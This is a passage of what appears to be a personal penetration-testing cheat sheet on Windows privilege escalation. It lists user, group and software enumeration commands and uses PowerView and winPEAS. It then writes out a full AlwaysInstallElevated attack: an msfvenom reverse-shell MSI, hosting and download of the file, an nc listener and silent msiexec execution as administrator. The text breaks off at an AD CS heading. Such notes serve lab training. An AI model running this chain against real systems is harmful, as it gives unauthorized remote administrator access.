 ```

Environmental Variables
```
Get-ChildItem Env:
```

```
$env:PATH.Split(';') | ForEach-Object { Get-Acl $_ }
```

Network Configuration
- `ipconfig /all`

Enumerate Users and Groups
- `net user`
- `net user Ryan.Cooper /domain`
- `net localgroup`
- `net groups "Domain Admins" /domain`

Enumerate nested groups by uploading PowerView.ps1
`. .\PowerView.ps1`
`Get-DomainGroup -MemberIdentity 'rudi.davis' | select samaccountname`
- might see groups not listed with `net groups`
`Get-DomainGroup 'Domain Admins' | select samaccountname,memberof`
- check the CN= part for nested groups

Enumerate Installed Software
```
Get-WmiObject -Class Win32_Product
```
- List installed software:


#### winpeas
`.\winPEASx64.exe`
#### AlwaysInstallElevated
*Allows current user to install msi's as Administrator*
- will see on winpeas:
	- AlwaysInstallElevated set to 1 in HKLM and HKCU set to 1
	- Also get the AutoLogon credentials for current user
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.210.90.250 LPORT=6969 -f msi > privesc.msi
```
- create msi rev shell
```
python -m http.server 80
```
- host with python server
```
wget http://10.21.90.250/privesc.msi -o privesc.msi
```
- transfer to machine
```
rlwrap -cAr nc -lvnp 6969
```
- setup listener
```
runas /user:dev-datasci-lowpriv "msiexec /quiet /qn /i C:\Users\dev-datasci-lowpriv\Desktop\malicious.msi"
```
- run msi shell as admin, catch shell with listener


AD CS
- upload Certify.exe
```